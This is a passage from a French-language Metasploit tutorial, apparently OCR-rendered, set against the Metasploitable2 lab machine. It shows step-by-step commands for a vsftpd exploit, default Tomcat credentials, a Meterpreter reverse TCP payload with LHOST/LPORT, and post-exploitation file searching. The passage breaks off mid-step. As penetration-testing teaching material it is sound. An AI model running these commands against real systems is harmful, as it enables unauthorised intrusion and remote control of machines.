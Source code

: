 Configuration des Options<br>
Chaque module a des options spécifiques, affichées avec :<br>
bash<br>
options<br>
### Par exemple, pour un exploit vsftpd :
Configurez l’adresse IP cible :<br>
bash<br>
set RHOSTS 192.168.1.129(IP CIBLE pour exemple)<br>
Vérifiez avec :<br>
bash<br>
show options<br>
### Cela montre les paramètres comme RPORT (par défaut 21 pour FTP).<br>
### Pour des exploits nécessitant des identifiants, comme Apache Tomcat :
bash<br>
set HttpUsername tomcat<br>
set HttpPassword tomcat<br>
### Même si certains champs sont marqués comme non requis, ils peuvent être essentiels.
Sélection et Configuration des Payloads<br>
### Les payloads définissent ce qui se passe après l’exploitation. Par exemple, pour une shell inverse avec Meterpreter :
Utilisez :<br>
bash<br>
set payload java/meterpreter/reverse_tcp<br>
Configurez :<br>
bash<br>
set LHOST 192.168.74.128<br>
set LPORT 4444<br>
### Vous pouvez lister les payloads disponibles avec :
bash<br>
show payloads<br>
Cela offre des options comme bind/reverse shell ou staged/non-staged (ex. windows/meterpreter/reverse_tcp).<br>
Lancement de l’Exploit et Post-Exploitation<br>
### Lancez l’exploit avec :
bash<br>
exploit<br>
Ou :<br>
bash<br>
run<br>
### Selon le module.
Pour vsftpd :<br>
Après configuration, exploit ouvre une session. Vérifiez avec :<br>
bash<br>
whoami<br>
### Cela devrait retourner root sur Metasploitable2.
Pour des tâches post-exploitation, Meterpreter offre des fonctionnalités avancées :<br>
Rechercher des fichiers :<br>
bash<br>
search -f license.txt<br>
(Trouve 8 fichiers, par exemple.)<br>
### Télécharger un fichier :
bash<br>